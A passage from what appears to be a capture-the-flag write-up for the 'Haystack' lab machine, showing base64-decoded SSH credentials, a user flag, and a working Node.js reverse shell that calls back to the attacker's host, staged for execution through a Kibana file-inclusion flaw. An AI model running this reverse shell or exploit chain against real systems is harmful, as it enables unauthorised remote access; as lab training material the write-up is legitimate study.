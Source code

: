 as we see we found two base64 strings lets decode them  

```
root@X-Billy:~/Desktop# echo dXNlcjogc2VjdXJpdHkg | base64 --decode
 user: security 
 root@PEN-TEST-PC1:~/Desktop# echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 --decode
 pass: spanish.is.key

```

nice we find the user creds 

> USER FLAG 

okaii lets connect by ssh useing these creds 

```
root@X-Billy:~/Desktop# ssh security@10.10.10.115
security@10.10.10.115's password: 
Last login: Thu Oct 24 07:17:53 2019 from 10.10.16.161
[security@haystack ~]$
```

yup the creds are working  
lets see what is there 

```
[security@haystack ~]$ cat user.txt 
04d18bc79dac1d4d48ee0a940c8eb929
```

> Privilege Escalation 

We find LFI on Elasticsearch version .. okaai lets get a shell as a user kibana  

I use this javaScript shell i replace the ip and the port  

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8001, "10.10.16.161", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();

```

I put it in /dev/shm  

and as we see kibana is running on port 5601 by reading the /etc/kibana/kibana.yml  

i make the following curl req to execute our reverse shell  
